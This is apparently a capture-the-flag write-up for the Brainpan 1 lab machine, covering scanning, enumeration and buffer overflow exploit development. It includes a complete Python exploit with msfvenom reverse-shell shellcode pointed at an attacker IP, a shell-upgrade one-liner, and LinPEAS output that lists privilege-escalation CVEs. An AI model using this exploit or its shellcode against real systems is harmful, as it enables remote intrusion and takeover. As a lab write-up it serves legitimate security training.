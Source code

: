 # Brainpan 1
## Recon

The only thing I know about this challenge is there is a buffer overflow involved.

## Scanning

```bash
PORT      STATE SERVICE REASON         VERSION                                                                 
9999/tcp  open  abyss?  syn-ack ttl 61                                                                         
| fingerprint-strings:                                                                                         
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_|  
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    syn-ack ttl 61 SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
```

## Enumeration

Port `9999` is some console. I did a few password guesses but nothing stuck. Port `10000` is running a webserver which has a slightly outdated infographic about secure coding. Dirbuster found a `/bin/` directory on the webserver. There's one executable file hosted there: `brainpan.exe`. This much be the service behind port 9999. I'll copy it away for exploit development in my lab. The box says to do the work in linux, but why? I already can do it repetedly in Windows. Maybe someday I'll learn the finer points of linux debuggers, but for now I'll do it the way I already know how.

## Exploit development.

I got the service running in my lab and verified the port with nmap. The output for port 9999 matched the initial scan exactly!

The buffer overflow script I wrote only identified `\x00` as a badchar. Additionally the exploit is failing.

The exploit was failing because of a bug in the script. Working now.

I swapped out some variables and made the exploit ready for brainpan. Here is the final result:

```python3
#!/usr/bin/env python3

import socket

ip = "10.10.109.180"
port = 9999

prefix = " "
offset = 523
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 16
# msfvenom -p windows/shell_reverse_tcp LHOST=10.2.73.217 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
payload = "\xda\xc4\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x52\xbb\xad\xfc\xa8\x8e\x31\x58\x17\x83\xe8\xfc\x03\xf5\xef\x4a\x7b\xf9\xf8\x09\x84\x01\xf9\x6d\x0c\xe4\xc8\xad\x6a\x6d\x7a\x1e\xf8\x23\x77\xd5\xac\xd7\x0c\x9b\x78\xd8\xa5\x16\x5f\xd7\x36\x0a\xa3\x76\xb5\x51\xf0\x58\x84\x99\x05\x99\xc1\xc4\xe4\xcb\x9a\x83\x5b\xfb\xaf\xde\x67\x70\xe3\xcf\xef\x65\xb4\xee\xde\x38\xce\xa8\xc0\xbb\x03\xc1\x48\xa3\x40\xec\x03\x58\xb2\x9a\x95\x88\x8a\x63\x39\xf5\x22\x96\x43\x32\x84\x49\x36\x4a\xf6\xf4\x41\x89\x84\x22\xc7\x09\x2e\xa0\x7f\xf5\xce\x65\x19\x7e\xdc\xc2\x6d\xd8\xc1\xd5\xa2\x53\xfd\x5e\x45\xb3\x77\x24\x62\x17\xd3\xfe\x0b\x0e\xb9\x51\x33\x50\x62\x0d\x91\x1b\x8f\x5a\xa8\x46\xd8\xaf\x81\x78\x18\xb8\x92\x0b\x2a\x67\x09\x83\x06\xe0\x97\x54\x68\xdb\x60\xca\x97\xe4\x90\xc3\x53\xb0\xc0\x7b\x75\xb9\x8a\x7b\x7a\x6c\x1c\x2b\xd4\xdf\xdd\x9b\x94\x8f\xb5\xf1\x1a\xef\xa6\xfa\xf0\x98\x4d\x01\x93\xac\x93\x40\xba\xd9\x91\x52\x2d\x46\x1f\xb4\x27\x66\x49\x6f\xd0\x1f\xd0\xfb\x41\xdf\xce\x86\x42\x6b\xfd\x77\x0c\x9c\x88\x6b\xf9\x6c\xc7\xd1\xac\x73\xfd\x7d\x32\xe1\x9a\x7d\x3d\x1a\x35\x2a\x6a\xec\x4c\xbe\x86\x57\xe7\xdc\x5a\x01\xc0\x64\x81\xf2\xcf\x65\x44\x4e\xf4\x75\x90\x4f\xb0\x21\x4c\x06\x6e\x9f\x2a\xf0\xc0\x49\xe5\xaf\x8a\x1d\x70\x9c\x0c\x5b\x7d\xc9\xfa\x83\xcc\xa4\xba\xbc\xe1\x20\x4b\xc5\x1f\xd1\xb4\x1c\xa4\xf1\x56\xb4\xd1\x99\xce\x5d\x58\xc4\xf0\x88\x9f\xf1\x72\x38\x60\x06\x6a\x49\x65\x42\x2c\xa2\x17\xdb\xd9\xc4\x84\xdc\xcb;"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
  
```

I get a shell. But not a very good one. I was able to get a somewhat normal shell by executing `/bin/bash` and the python pty.spawn trick.

```python3
python3 -c "import pty; pty.spawn('/bin/bash');"
```

The shell was still pretty unstable and unpredictable, so I ran linpeas and downloaded the output for review.

### LinPEAS findings

> OS: Linux version 3.5.0-25-generic (buildd@lamiak) (gcc
 version 4.7.2 (Ubuntu/Linaro 4.7.2-2ubuntu1) ) #39-Ubuntu SMP Mon Feb 25
 19:02:34 UTC 2013

> Sudo 1.8.5p2

> PROCESSOR_ARCHITECTURE=x86

>  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
>  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
>  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
>  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
>  [5] pp_key
      CVE-2016-0728
      Source: http://www.exploit-db.com/exploits/39277
>  [6] timeoutpwn
      CVE-2014-0038
      Source: http://www.exploit-db.com/exploits/31346

The output is messy, but it appears cron is running and the standard crontab file has an entry that starts chksrv.sh (the script that starts brainpan.exe).

> # m h  dom mon dow   command
> * * * * * /home/puck/checksrv.sh


> User puck may run the following commands on this host:
>    (root) NOPASSWD: /home/anansi/bin/anansi_util

> ╔══════════╣ .sh files in path
> ╚ https://book.hacktricks.xyz/linux-unix/privilege-esca
> lation#script-binaries-in-path
> /usr/bin/gettext.sh

I was investigating the crontab file to see if I could gain execution somehow. I don't have write access to crontab, or the script it calls...but wait. The brainpan executable was in my users's home directory. Maybe have write permissions to it.


